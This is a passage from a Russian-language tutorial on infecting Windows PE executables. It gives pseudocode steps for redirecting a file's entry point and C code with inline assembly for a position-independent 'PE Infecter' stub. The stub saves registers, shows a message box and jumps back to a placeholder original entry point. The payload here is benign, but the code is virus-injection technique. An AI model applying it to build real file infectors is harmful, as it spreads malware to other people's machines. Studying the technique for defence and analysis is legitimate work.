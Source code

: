 * Изменяем текущую точку входа на адрес нашего кода 

* Закрываем целевой файл 

 

 

Хочу обратить внимание, что сам код, который мы вставляем — это самая сложная часть заражения PE, почему вы поймете дальше. 

 

 

Теперь давайте начнем реализовывать наш псевдокод... 

 

 

Нам надо открыть файл и смаппить его (это упростит модификацию). Я не буду объяснять, что делает каждый вызов API, в этом вам поможет MSDN.  

 

 

Следующий кусок кода показывает, как это делается: 

 

 

 
```c
// PE Infecter by KOrUPt
#include 
#include 
 
#define bb(x) __asm _emit x
 
__declspec(naked) void StubStart()
{
    __asm{
        pushad  // сохраняем контекст нашего потока
        call GetBasePointer
        GetBasePointer: 
        pop ebp
        sub ebp, offset GetBasePointer // трюк для базонезависимости...
         
        push MB_OK
        lea  eax, [ebp+szTitle]
        push eax
        lea  eax, [ebp+szText]
        push eax
        push 0
        mov  eax, 0xCCCCCCCC
        call eax
     
        popad   // восстанавливаем контекст нашего потока
        push 0xCCCCCCCC // кладем на стек адрес оригинальной входной точки (здесь в примере - заглушка)
        retn    // retn используется, как jmp
         
        szText:
            bb('H') bb('e') bb('l') bb('l') bb('o') bb(' ') bb('W') bb('o') bb('r') bb('l') bb('d')
            bb(' ') bb('f') bb('r') bb('o') bb('m') bb(' ') bb('K') bb('O') bb('r') bb('U') bb('P') bb('t') bb(0)        
        szTitle:
            bb('O') bb('h') bb('a') bb('i') bb(0)
         
    }
}
void StubEnd(){}
 
```